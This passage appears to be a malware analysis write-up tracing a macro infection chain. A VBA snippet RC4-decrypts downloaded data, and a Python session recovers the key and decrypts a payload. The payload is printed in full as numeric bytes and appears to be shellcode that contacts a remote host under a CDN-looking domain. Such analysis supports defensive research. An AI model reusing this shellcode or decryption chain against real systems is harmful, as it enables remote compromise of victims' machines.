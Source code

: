 ```
    Dim sSecret     As String
    Dim dec_secret As String
    Dim here As String
    here = pass
    dec_secret = CryptRC4(FromHexDump(strText), here)

```

It looks like one of the URLs will return helified data and the other will return data that will be hexlified and used as an RC4 key to decode the other data. That data will then be reconstructed and injected into rundll process.


# Next Layer

Decoding the downloaded data:
```
>>> passw
'well,letmeexplainyouthis'
>>> tp = binascii.hexlify(passw)
>>> tp
'77656c6c2c6c65746d656578706c61696e796f7574686973'
>>> tp.upper()
'77656C6C2C6C65746D656578706C61696E796F7574686973'
>>> rc4 = ARC4.new(binascii.hexlify(passw).upper())

>>> t = rc4.decrypt(b)
>>> t
'-4,-24,-119,0,0,0,96,-119,-27,49,-46,100,-117,82,48,-117,82,12,-117,82,20,-117,114,40,15,-73,74,38,49,-1,49,-64,-84,60,97,124,2,44,32,-63,-49,13,1,-57,-30,-16,82,87,-117,82,16,-117,66,60,1,-48,-117,64,120,-123,-64,116,74,1,-48,80,-117,72,24,-117,88,32,1,-45,-29,60,73,-117,52,-117,1,-42,49,-1,49,-64,-84,-63,-49,13,1,-57,56,-32,117,-12,3,125,-8,59,125,36,117,-30,88,-117,88,36,1,-45,102,-117,12,75,-117,88,28,1,-45,-117,4,-117,1,-48,-119,68,36,36,91,91,97,89,90,81,-1,-32,88,95,90,-117,18,-21,-122,93,104,110,101,116,0,104,119,105,110,105,84,104,76,119,38,7,-1,-43,-24,0,0,0,0,49,-1,87,87,87,87,87,104,58,86,121,-89,-1,-43,-23,-92,0,0,0,91,49,-55,81,81,106,3,81,81,104,-69,1,0,0,83,80,104,87,-119,-97,-58,-1,-43,80,-23,-116,0,0,0,91,49,-46,82,104,0,50,-64,-124,82,82,82,83,82,80,104,-21,85,46,59,-1,-43,-119,-58,-125,-61,80,104,-128,51,0,0,-119,-32,106,4,80,106,31,86,104,117,70,-98,-122,-1,-43,95,49,-1,87,87,106,-1,83,86,104,45,6,24,123,-1,-43,-123,-64,15,-124,-54,1,0,0,49,-1,-123,-10,116,4,-119,-7,-21,9,104,-86,-59,-30,93,-1,-43,-119,-63,104,69,33,94,49,-1,-43,49,-1,87,106,7,81,86,80,104,-73,87,-32,11,-1,-43,-65,0,47,0,0,57,-57,117,7,88,80,-23,123,-1,-1,-1,49,-1,-23,-111,1,0,0,-23,-55,1,0,0,-24,111,-1,-1,-1,47,110,98,67,73,0,-45,-19,82,109,28,-80,-103,81,49,-9,48,-60,-122,39,3,-100,26,-94,122,77,49,-28,0,122,-60,-13,-32,-102,-97,77,-72,89,-4,30,123,48,79,28,-108,16,52,-51,-44,-96,-95,-3,-12,-78,38,22,-15,70,74,-85,-15,64,6,-84,-42,-128,-103,78,64,-33,-94,40,5,-54,7,-2,-41,80,-112,0,85,115,101,114,45,65,103,101,110,116,58,32,77,105,99,114,111,115,111,102,116,45,67,114,121,112,116,111,65,80,73,47,54,46,49,13,10,72,111,115,116,58,32,110,111,118,111,116,101,46,97,122,117,114,101,101,100,103,101,46,110,101,116,13,10,0,-52,23,-105,29,-51,-35,-74,118,64,-18,30,88,-80,14,-40,-56,-105,48,77,81,100,72,-76,-38,15,-16,-89,70,-26,94,-13,94,-3,-16,-92,-36,1,49,-124,-29,111,-117,-53,102,54,58,14,-3,-44,79,0,-8,60,29,109,-89,33,-63,12,-83,-65,11,7,-19,117,-118,-47,-38,85,-26,-35,51,99,82,-72,40,-21,-97,61,116,-104,79,80,-67,25,18,-29,70,122,54,29,-123,-17,-82,90,-40,125,-75,115,74,-6,-108,-76,-75,-118,-64,102,72,58,60,123,-115,14,-102,-122,40,92,105,-65,64,-91,-22,80,-118,-128,67,-30,-125,-99,-93,-97,-31,36,-5,-78,-6,-97,50,-60,-5,102,-68,0,-76,53,35,115,-87,-36,-13,41,0,-65,-46,-79,70,85,39,-52,73,-65,-23,-83,81,-60,42,54,-87,31,106,9,54,-97,-34,9,11,86,18,118,97,64,-93,62,-43,-100,54,-21,-98,75,54,-119,-41,-71,113,20,-46,90,-123,16,-69,102,-104,56,18,114,-44,107,-119,115,-112,9,-107,-125,44,115,1,-66,89,44,42,67,17,36,-84,-6,28,109,-85,126,23,-38,107,-51,-88,-85,-80,-50,0,104,-16,-75,-94,86,-1,-43,106,64,104,0,16,0,0,104,0,0,64,0,87,104,88,-92,83,-27,-1,-43,-109,-71,0,0,0,0,1,-39,81,83,-119,-25,87,104,0,32,0,0,83,86,104,18,-106,-119,-30,-1,-43,-123,-64,116,-58,-117,7,1,-61,-123,-64,117,-27,88,-61,-24,-119,-3,-1,-1,116,111,45,100,111,45,99,100,110,46,109,105,99,114,111,115,111,102,116,46,99,111,109,0,51,28,-66,-38'
>>> blah = t.split(',')
>>> blah2 = map(lambda x: chr(int(x)&0xff),blah)
>>> blah2 = ''.join(blah2)
>>> blah2
```
